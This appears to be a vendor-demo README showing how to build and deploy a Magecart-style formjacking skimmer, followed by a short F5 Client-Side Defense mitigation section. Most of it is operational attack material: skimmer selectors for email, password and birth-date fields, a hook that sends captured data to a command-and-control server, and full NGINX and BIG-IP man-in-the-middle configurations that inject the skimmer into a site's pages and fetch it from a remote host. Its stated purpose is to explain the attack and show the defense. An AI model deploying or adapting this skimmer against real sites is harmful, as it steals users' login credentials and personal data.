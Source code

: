Formjacking Attack
##############################################################

.. image:: ./_pictures/UFO_mamy.png
   :align: center
   :width: 800
   :alt: All layers

.. contents:: Contents
    :local:

Introduction
*****************************************

This blog provides a formjacking code in order to understand how it works.

F5 customers are protected from magecart style attack by `F5 Client-Side Defense <https://www.f5.com/cloud/products/client-side-defense>`_:

    - **Analyse** the behavior of all Javascripts executed on your website
    - **Alert** your Cyber-SOC team if a javascript behaves like a malware and take action immediately (allow/block)
    - **Block** malicious Javascript execution

Thanks to `unit42 <https://unit42.paloaltonetworks.com/>`_ that did a great blog `here <https://unit42.paloaltonetworks.com/anatomy-of-formjacking-attacks/>`_ on this topic.

Configuration guide
*****************************************
- Open the web page with targeted form
- Inspect ``input`` elements to grab user data. Each element can be identified by an ``id``, a ``name``, a ``type``, etc...

.. code-block:: html

    <input ... id="login-credentials-form-password" name="password-uuid" type="password" ...>

- Open the file `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_
- Update the first 2 or 3 lines describing ``input`` elements to grab user data. See `examples </example>`_

.. code-block:: javascript

    window["data_leak_label_email"] = ["input[id*='login-credentials-form-email']", "input[name*='email']", "input[type*='email']"]
    window["data_leak_label_password"] = ["input[id*='login-credentials-form-password']", "input[name*='password']"]
    window["data_leak_label_birth_date"] = ["input[id*='login-credentials-form-birthdate']", "input[name*='birthDate']"]

- Go back to the web page, inspect ``button`` elements when the user submit the form

.. code-block:: html

    <button ... type="submit" id="login-button">

- In `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_, the
- The fourth line describes ``button`` element to watch in order to send data to remote C&C server.
.. code-block:: javascript

    window["data_leak_label_submit_button"] = ["button[id*='login-button']"]

- If the form contains more or less input fields, update ``function listener_fetch_data_leak()`` in order to have exactly all required ``input`` elements defined previously

.. code-block:: javascript

    data_leak = {
        "email": get_element_value(window["data_leak_label_email"]),
        "password": get_element_value(window["data_leak_label_password"]),
        "birth_date": get_element_value(window["data_leak_label_birth_date"]),
        "uagent": navigator.userAgent
    }

Deployment guide
*****************************************

C&C server
=========================================
- Run C&C server as described `here <https://github.com/nergalex/c2-server>`_

Man In the Middle
=========================================
- Run a Reverse-Proxy that acts as a Man-In-The-Middle: forward all traffic to ORIGIN servers
- If DNS domain is spoofed, rewrite SNI and headers (HOST, ORIGIN and eventually others required by the App)
- Inject malware JS `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_ in all or specific pages

**NGINX**
    See below the NGINX+ configuration for `juice-shop <https://github.com/juice-shop/juice-shop>`_ Single Page Application:

.. code-block:: nginx

    user  nginx;
    worker_processes  auto;
    error_log  /var/log/nginx/error.log info;
    pid        /var/run/nginx.pid;

    events {
        worker_connections 4096;
    }

    http {
        log_format main '$remote_addr - $remote_user [$time_local] "$request" $status '
                            '$body_bytes_sent "$http_referer" "$http_user_agent" "$http_x_forwarded_for" '
                            '$request_time "$upstream_connect_time" "$upstream_response_time" ';

        access_log /var/log/nginx/access.log main;

        client_max_body_size 1000M;
        server {
            listen       80  default_server;
            resolver 100.127.192.10; # For DNS lookup of $host;
            location = / {
                ### Insert malicious JS link in main page
                gzip on;
                proxy_set_header Accept-Encoding "";
                sub_filter "<head>" "<head><script async defer src='https://$host/demo/skimmer.js'></script> ";
                proxy_set_header Host $host;
                proxy_pass http://$host;
            }
            location = /demo/skimmer.js {
                # Proxy GET of malicious JS to remote repo
                proxy_pass https://raw.githubusercontent.com/nergalex/f5-magecart/master/example/skimmer_juiceshop.js;
                proxy_hide_header Content-Type;
                add_header Content-Type "application/javascript";
            }
            location / {
                # Other traffic forwarded to origin server
                proxy_set_header Host $host;
                proxy_pass http://$host;
            }
        }
    }

**BIG-IP UI configuration for JS insertion:**

    Local Traffic  ››  Profiles : Content : HTML : Rules /Common/form_grabber
    +-- Match settings ››  Match Tag Name: head
    +-- Action settings ››  HTML to Append: copy paste content of `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_ surrounded by <script>...</script>

    Local Traffic  ››  Profiles : Content : HTML : /Common/html-demo
    +-- HTML rules: form_grabber

    Local Traffic  ››  Virtual Servers ››  vs-demo
    +-- HTML Profile: html-demo

**BIG-IP UI configuration for JS redirection:**

    Local Traffic  ››  Profiles : Content : HTML : Rules /Common/form_grabber
    +-- Match settings ››  Match Tag Name: head
    +-- Action settings ››  HTML to Append: <script src="/magecart.js"></script>

    Local Traffic  ››  Profiles : Content : HTML : /Common/html-demo
    +-- HTML rules: form_grabber

    Local Traffic  ››  Virtual Servers ››  vs-demo
    +-- HTML Profile: html-demo

    Local Traffic  ››  Policies : Policy csd-magecart (see tmsh config below)

    Local Traffic  ››  Virtual Servers ››  vs-demo
    +-- HTML Profile: html-demo
    +-- ltm policy: csd-magecart

.. code-block:: tcl

    ltm policy csd-magecart {
        rules {
            redirect-to-magecart-js {
                actions {
                    0 {
                        http-uri
                        replace
                        path /nergalex/f5-magecart/master/example/skimmer_website12.js
                    }
                    1 {
                        http-host
                        replace
                        value raw.githubusercontent.com
                    }
                    2 {
                        forward
                        select
                        pool raw.githubusercontent.com
                    }
                    3 {
                        http-header
                        response
                        replace
                        name Content-Type
                        value "application/javascript; charset=UTF-8"
                    }
                }
                conditions {
                    0 {
                        http-host
                        host
                        values { demo.com }
                    }
                    1 {
                        http-uri
                        path
                        values { /magecart.js }
                    }
                }
            }
            default {
                actions {
                    0 {
                        forward
                        select
                        pool demo.com
                    }
                }
                conditions {
                    0 {
                        http-host
                        host
                        values { demo.com }
                    }
                }
                ordinal 1
            }
        }
        strategy first-match
    }

- Enable compression on client-side / downstream-side if ORIGIN servers use compression

Mitigation guide
*****************************************
- Connect to F5 Distributed Cloud
- Get your Client Side Defense JS (CSD)
- Inject CSD JS as well in the web page to protect

BIG-IP UI configuration for JS insertion:

    Local Traffic  ››  Profiles : Content : HTML : Rules /Common/f5_csd
    +-- Match settings ››  Match Tag Name: head
    +-- Action settings ››  HTML to Append: copy paste F5 CSD JS link

    Local Traffic  ››  Profiles : Content : HTML : /Common/html-demo
    +-- HTML rules: form_grabber + f5_csd


